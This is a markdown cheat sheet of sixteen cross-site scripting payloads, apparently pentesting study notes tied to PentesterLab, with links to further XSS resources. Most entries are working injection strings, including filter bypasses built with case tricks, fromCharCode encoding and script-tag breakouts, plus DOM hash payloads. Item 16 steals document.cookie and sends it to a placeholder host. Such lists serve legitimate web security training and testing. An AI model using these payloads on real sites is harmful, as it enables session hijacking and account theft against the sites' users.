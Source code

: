 
### Top XSS Payloads 


1- `<script>alert("1")</script>`  


2- `<sCript> alert("bypassing simple filters") </sCRIpt>` 


3- PentesterLab 


4- `<a onmouseover="alert(document.cookie)">xxs link</a> | <a onmouseover=alert(document.cookie)>xxs link</a>`


5- `<img src='zzzz' onerror='alert(1)' />` 


6- `<div style="color:red" onclick=alert('xss')>`  | Coloring is adding to see the div


7- `<div style="color:green" onmouseover=alert('xss') >`


8- `<script>console.log("test")</script>` |  __Tests if word script is allowed but alert is not__


9- <img src="cc" onerror=eval(String['fromCharCode'](97,108,101,114,116,40,39,120,115,115,39,41,32))> | __alert is not allowed__ 


10- `</script><script>alert('XSS');</script>` | __escaping script tags to excute the payload__


11- `';alert('xss');//`  | The apostrophe character is used to escape in PHP htmlentities __'__


12- `' onerror=alert('xss');> ` &nbsp;  &nbsp; |  &nbsp; use this if the vulnerability in the image


13- `#<script>alert(1)</script>` &nbsp;  &nbsp;  |  &nbsp;  __exploiting the DOM xss with hash.substring__

14- `#javascript:alert(1)`  &nbsp;  &nbsp; |  &nbsp;  __exploiting the DOM xss with hash.substring__

15- `" onmouseover="alert(1)` &nbsp;  &nbsp; |  &nbsp;

16- `<script> var i = new Image(); i.src="http://URL/get.php?cookie="+escape(document.cookie)</script>` | __to get cookie__

### Extra Resources:

- [Convert Characters to ASCII Codes](https://www.browserling.com/tools/text-to-ascii)

- [Complete List of XSS Payloads:](https://github.com/nairuzabulhul/RoadMap/blob/master/PTP/Web_Security/XSS_Payload_List.txt)

- [ABC of XSS](https://quanyang.github.io/the-abcs-of-xss/)

- [Infosec Notes](http://f4l13n5n0w.github.io/blog/2015/05/21/pentesterlab-web-for-pentester-xss/)

- 
